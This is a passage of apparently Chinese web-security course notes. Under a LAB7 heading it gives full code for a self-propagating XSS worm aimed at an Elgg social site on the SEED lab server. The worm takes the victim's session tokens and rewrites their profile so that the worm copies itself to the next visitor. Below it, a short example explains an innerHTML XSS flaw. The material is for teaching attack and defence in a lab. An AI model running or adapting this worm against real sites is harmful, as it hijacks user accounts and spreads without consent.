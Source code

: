 5. 网页挂马
6.  XSS蠕虫

    **LAB7** 编写自传播的DOM方法XSS蠕虫：

    ```html
    <script id='worm' type='text/javascript'>
    window.onload = function(){
    var headerTag = "<script id=\'worm\' type=\'text/javascript\'>";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>"; 
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);   
    var guid = elgg.session.user.guid;
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var content= token + ts + "&name=" + userName + "&description=<p>Hacked by XSS  WORM"+ wormCode + "     &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2" + guid;
    var sendurl = "http://www.seed-server.com/action/profile/edit"
    var AliceGuid=56;
    if(guid!=AliceGuid){
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("POST",sendurl,true);
    Ajax.setRequestHeader("Host","www.seed-server.com");
    Ajax.setRequestHeader("Content-Type",
    "application/x-www-form-urlencoded");
    Ajax.send(content);
    }
    }
    </script>
    ```

判断**JavaScript脚本**的安全措施，**分析JavaScript脚本的漏洞**

#### 示例：分析JavaScript脚本的漏洞

#### DOM操作

下JavaScript代码片段：

```javascript
document.getElementById('myElement').innerHTML = untrustedInput;
​
var userName = document.getElementById('username').value; // 用户输入
document.getElementById('welcome-message').innerHTML = 'Welcome, ' + userName + '!';
​
```

`untrustedInput`是一个未经验证和清理的用户输入。这段代码容易受到XSS攻击，因为恶意的输入可以被直接插入到HTML中，被浏览器执行。
